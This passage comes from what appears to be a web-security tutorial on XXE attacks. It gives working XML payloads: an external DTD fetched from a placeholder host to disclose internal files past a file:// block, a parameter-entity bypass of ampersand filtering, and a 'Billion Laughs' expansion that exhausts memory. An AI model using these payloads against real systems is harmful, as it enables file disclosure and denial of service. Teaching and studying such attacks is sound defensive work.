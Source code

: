 We can craft our XXE payload in a way that would make the vulnerable application reach out to our server, load our malicious DTD file, and execute its contents:

```js
<!DOCTYPE data [
  <!ENTITY % xxe SYSTEM "https://example.com/xxe.dtd"> %xxe;
]>
<data>
    <post>
        <post_title>...</post_title>
        <post_desc>...</post_desc>
    </post>
</data>
```

Using this approach, we are no longer required to specify the blocked `file://` protocol to the vulnerable server while still being able to disclose the contents of internal files!

### Exploiting blind XXE with a parameter entity

Some developers attempt to take proactive measures against XXE attacks and try to strip entities from user input. As we know, an XML entity (equivalent of a variable) is declared and used in the following format:

```js
<!DOCTYPE root [
  <!ENTITY name "This text will replace &name; when used">
]>
<root>&name;</root>
```

Filtering out the ampersand symbol (`&`) often seems like a logical thing to do. However, we can easily bypass this by making use of parameter entities instead. Parameter entities are defined with a percentage sign (`<!ENTITY % name "value">`), referenced with the following syntax: `%name;`

And they can only be referenced in the DTD itself, here's an example of an XXE payload using the parameter entity to load an external resource:

```js
<!DOCTYPE root [
  <!ENTITY % xxe SYSTEM "http://example.com/"> %xxe;
]>
<root></root>
```


### Exploiting XXE via resource exhaustion ('Billion Laughs' attack)

As we've mentioned before, security misconfigurations in XML parsers can open up new attack vectors and allow us to exploit XXE vulnerabilities. In some cases, when entity expansion limits are unset, we could practically use this to exponentially expand external entities.

Exponential entity expansion, better known as the 'Billion Laughs' attack, takes advantage of recursive entity declarations, resulting in high memory consumption and even system crashes:

```js
<!DOCTYPE root [
  <!ENTITY e "e">
  <!ENTITY e1 "&e;&e;&e;&e;&e;&e;&e;&e;&e;&e;">
  <!ENTITY e2 "&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;&e1;">
  <!ENTITY e3 "&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;&e2;">
  <!-- ... -->
]>
<root>&e3;</root>
```
